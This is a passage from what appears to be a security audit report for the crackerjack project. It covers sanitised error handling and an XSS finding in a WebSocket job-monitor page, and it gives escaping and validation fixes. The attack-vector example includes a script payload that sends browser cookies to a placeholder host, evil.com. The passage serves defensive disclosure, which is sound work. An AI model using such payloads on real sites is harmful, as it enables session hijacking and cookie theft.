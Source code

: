 **Mitigation**:
```python
async def execute_crackerjack_workflow(
    args: str, kwargs: dict[str, t.Any]
) -> dict[str, t.Any]:
    job_id = str(uuid.uuid4())[:8]

    try:
        return await _execute_crackerjack_sync(job_id, args, kwargs, get_context())
    except Exception as e:
        # SECURE: Log full details internally, return sanitized error
        logger.error(f"Workflow execution failed: {traceback.format_exc()}")

        return {
            "job_id": job_id,
            "status": "failed",
            "error": "Execution failed due to internal error",  # Generic message
            "error_id": job_id,  # Reference for support
            "timestamp": time.time(),
        }
```

### 🟠 HIGH-003: Insecure WebSocket HTML Injection
**File**: `crackerjack/mcp/websocket/endpoints.py`
**Lines**: 50-492, 540-547

**Description**: The test page HTML contains XSS vulnerabilities and the job monitor endpoint reflects user input without sanitization.

**Attack Vector**:
```python
# XSS via job_id parameter
job_id = "<script>fetch('http://evil.com/steal?cookie='+document.cookie)</script>"

# Gets directly injected into HTML:
# f"<title>Job Monitor-{job_id}</title>"
# f"<span class=\"job-id\">{job_id}</span>"
```

**Impact**:
- Cross-site scripting (XSS) attacks
- Session hijacking via cookie theft
- Malicious JavaScript execution in browser contexts
- Client-side security bypass

**Mitigation**:
```python
def _get_monitor_html(job_id: str) -> str:
    import html

    # SECURE: HTML escape user input
    safe_job_id = html.escape(job_id)

    # Validate job_id format
    if not re.match(r'^[a-zA-Z0-9_-]{1,64}$', job_id):
        return "<h1>Error</h1><p>Invalid job ID format</p>"

    return f"""
    <!DOCTYPE html>
    <html>
    <head>
        <title>Job Monitor - {safe_job_id}</title>
        <!-- CSP header -->
        <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' 'unsafe-inline'">
    </head>
```
